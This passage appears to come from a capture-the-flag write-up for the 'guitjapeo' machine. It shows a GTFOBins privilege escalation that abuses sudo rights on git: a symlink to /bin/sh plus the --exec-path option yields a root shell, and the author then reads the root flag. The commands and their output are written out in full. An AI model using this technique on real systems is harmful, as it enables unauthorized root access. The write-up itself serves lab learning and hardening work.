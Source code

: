 In GTFOBins, we find this binary, which shows us some ways to use it to elevate privileges; some use the manual or help with `less`, which won't work because the git manuals are not installed.

Option (e) works correctly for us.

```bash
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

We execute it and obtain a shell as root.

```bash
lenam@guitjapeo:~/.local/bin/web$ TF=$(mktemp -d)
lenam@guitjapeo:~/.local/bin/web$ ln -s /bin/sh "$TF/git-x"
lenam@guitjapeo:~/.local/bin/web$ sudo git "--exec-path=$TF" x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
f6aXXXXXXXXXXXXXXXXXXXXXXbb
```